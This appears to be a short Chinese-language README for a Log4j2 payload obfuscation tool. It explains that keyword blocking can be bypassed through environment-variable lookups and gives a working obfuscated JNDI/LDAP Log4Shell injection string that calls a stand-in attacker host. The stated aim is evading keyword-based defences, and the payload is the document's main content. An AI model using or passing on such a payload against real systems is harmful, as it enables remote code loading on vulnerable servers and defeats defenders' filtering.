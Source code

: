 # Log4j2_obfuscation

许多开发人员开始屏蔽关键字以保护应用程序。

但是，攻击者可以使用混淆方式来进行绕过。

最常用的为系统环境变量绕过：

${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}

手动替换字符无疑是一项大工程，耗时耗力又容易出错。




